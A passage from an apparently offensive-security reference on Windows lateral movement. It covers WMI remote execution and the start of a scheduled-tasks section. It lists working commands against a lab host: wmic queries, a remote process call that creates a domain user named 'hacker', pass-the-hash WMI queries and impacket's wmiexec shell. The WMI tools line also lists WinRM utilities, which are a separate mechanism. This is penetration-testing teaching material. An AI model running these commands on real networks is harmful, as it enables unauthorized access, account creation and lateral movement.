 ### Windows Management Instrumentation (WMI)

WMI is Microsoft's consolidation of system management under a single umbrella. It is leveraged heavily under the hood for local operation, but can also be used for remote execution. Several built-in tools exist for either WQL query execution, or full code execution. Impacket includes wmiexec which also provides a semi-interactive shell.&#x20;

Remote WMI queries used RPC/DCOM as the communication bus.

**Port:** 135/TCP (RPC), plus one high-random TCP (DCOM)

**Tools:** winrm, winrs, PowerShell Remoting

**Example list services:**

```
wmic.exe /USER:"testlab\josh" /PASSWORD:"Password1" /NODE:192.168.112.200 service get "startname,pathname"
```

\
**Example execute code (add user):**

```
wmic /USER:"testlab\josh" /PASSWORD:"Password1" /NODE:192.168.112.200 process call create "net user hacker Str0nGP_$sw0rd /add /domain"
```

\
**Example list services (via PS cmdlet):**

```
PS> Get-WMIObject -ComputerName 192.168.112.200 -query "Select * from Win32_Service"
```

\
**Example list processes (via linux wmic util):**

```
pth-wmic -U testlab/josh%Password1 //192.168.112.200 "select csname,name,processid,sessionid from win32_process"
```

\
**Example semi-interactive shell (impacket):**

```
wmiexec.py 'josh':'Password1'@192.168.112.200
```

### Scheduled Tasks&#x20;

Tasks, that are, scheduled. In addition to running commands locally, the built-in schtasks utility leverages RPC/DCOM to schedule tasks on remote machines. On legacy Windows machines At.exe performed this functionality, but was deprecated for SchTasks in modern platforms. Application firewalls that block Schtasks may still allow At, a good reason to attempt both if necessary.&#x20;

**Port:** 135/TCP (RPC), plus one high-random TCP (DCOM)

**Tools:** schtasks, at
